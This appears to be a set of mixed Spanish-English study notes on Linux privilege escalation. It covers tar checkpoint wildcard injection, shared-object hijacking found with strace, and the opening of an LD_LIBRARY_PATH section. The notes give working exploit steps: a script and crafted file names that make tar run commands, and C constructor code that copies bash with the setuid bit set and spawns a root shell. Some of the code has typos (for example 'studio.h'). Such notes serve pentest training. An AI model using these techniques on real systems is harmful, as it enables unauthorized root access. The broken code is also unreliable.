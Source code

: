 Por ejemplo: Tar tiene un argumento "checkpoint" asi pues:

este argumento lo que hace es permitir al usuario definir una accion que ejecutar durante el checkpoint

echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > runme.sh
touch /writable/path/used/by/tar --checkpoint=1
touch /writable/path/used/by/tar --checkpoint-action=exec sh\ runme.sh

#### Bala de plata VIII: Shared objects

### Shared Object

Los ficheros "shared objects" (so) son la equivalencia linuxera a los ficheros dll de Windows
Contienen "funciones" reutilizables
Las fucnciones exportadas (symbols) se exportan via tabla
Cargadas dentro del contexto de un proceso existente
Los metodos de linking:

    1. Static linking
    2. Dynamic Linking

fuente a consultar: http://rachid.koucha.free.fr/tech_corner/shared_libs_test.html

When a program is executed, it will try to load the shared objects it requires.

By using a program called strace, we can track these system calls and determine whether any shared objects were not found.

If we can write to the location the program tries to open, we can create a shared object and spawn a root shell when it is loaded.

#### Deteccion

strace <executable_file> 2>&1 | grep -i -E "open|access| no such file"

#### Explotacion

1. Compilar un fichero .so
2. Renombrarlo y utilizarlo en la localización identificada donde no hay fichero

#include <studio.h>
#include <stlib.h>

static void inject() _ _attribute_ _ ((constructor));

void inject() {
    system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");

}

$ gcc -shared -fPIC -o /home/user/.config/libcalc.so libcalc.c

##### Bala de plata IX: 

Ld_library 

The LD_LIBRARY_PATH environment variable contains a set of directories where shared libraries are searched for first.

